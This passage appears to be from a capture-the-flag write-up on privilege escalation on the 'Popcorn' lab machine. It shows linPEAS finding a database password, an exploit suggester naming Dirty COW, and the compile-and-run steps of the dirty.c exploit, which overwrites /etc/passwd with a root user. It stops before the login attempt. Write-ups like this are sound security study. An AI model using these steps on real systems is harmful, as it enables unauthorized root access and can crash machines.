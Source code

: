 # Privilege Escalation

---

I run linPEAS and it found this information:

```bash
╔══════════╣ Searching passwords in config PHP files  
$dbpass         = $CFG->dbPassword;                      
$dbuser         = $CFG->dbUserName;          
$CFG->dbPassword = "SuperSecret!!";   //db password 
$CFG->dbUserName = "torrent";    //db username
```

But that password did not help me. So I use the Linux Exploit Suggester (embedded into newer versions of LinPEAS) to find some exploits:

```bash
[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: probable
   Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},
   RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},
   RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},ubuntu=16.04|14.04|12.04
   Download URL: https://www.exploit-db.com/download/40611
   Comments: For RHEL/CentOS see exact vulnerable versions here: 
https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
```

The machine is vulnerable to the dirtycow kernel exploit. I know that this might crash the system but I'm completly stuck right now. I found this exploit code on Github:

[dirtycow/dirty.c at master · FireFart/dirtycow](https://github.com/FireFart/dirtycow/blob/master/dirty.c)

I downloaded the script to the machine and compiled it using GCC. After compilation, I run the exploit:

```bash
www-data@popcorn:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
www-data@popcorn:/tmp$ ls
dirty          dirty-cow.sh  f       libhax.so   rootshell  vgauthsvclog.txt.0
dirty-cow.cpp  dirty.c       les.sh  linpeas.sh  test.sh    vmware-root
www-data@popcorn:/tmp$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fi6bS9A.C7BDQ:0:0:pwned:/root:/bin/bash

mmap: b76fd000
^C
```

The script hangs and I don't know why, so I wait a minute or two and killed it (I had to kill the session and establish a new reverse shell). I try to login as firefart, because it should already have worked:
